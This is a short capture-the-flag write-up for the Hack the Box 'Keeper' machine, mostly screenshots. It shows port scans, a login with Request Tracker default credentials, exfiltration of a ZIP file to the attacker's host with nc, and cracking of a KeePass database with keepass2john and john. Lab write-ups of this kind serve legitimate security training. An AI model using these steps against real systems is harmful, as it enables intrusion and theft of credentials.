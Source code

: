 # Hack the Box - Keeper

```
rustscan -a 10.10.11.227 -r 0-65535 --ulimit 5000 
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/66939215-b494-486c-91cf-c24c5845167d)

```
nmap -sV -sC -A --min-rate 1000 10.10.11.227 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d9b95b35-fff7-471f-9257-09aa865cc3f9)

## HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f306fea0-644b-4415-b2d4-d5a5041ce776)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad643d0d-40bb-45e9-96a4-922da6d26d45)

Request Tracker Default Credentials
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf2f5581-c7de-4cb1-8f59-a469adf05737)

Dashboard
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bc5655f3-6405-4a33-a712-a8941dcafc80)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4bb08dfa-b361-4be2-8d75-66e7c7f6f7c7)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/22b263dc-63ec-49df-baf0-d33b2a0af87c)

SSH
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b612ec6c-ad5c-4eab-8ffe-1278d26e3cf9)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f50378d9-1cdc-4a82-9759-03579c745ba9)

Sending the ZIP file:
```
nc -N 10.10.14.61 9090 < RT30000.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/93b150a1-152b-40f1-aa39-af4065c1e762)

Receiving the ZIP file:
```
nc -l -p 9090 > keeper.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8b230c17-acee-4527-9086-cb9e3185991a)

Unzip:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8ec9d78e-9d40-4420-b4cb-517a8f99204b)

Cracking KeePass Database:
```
keepass2john passcodes.kdbx > passcodes.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt passcodes.hash
```
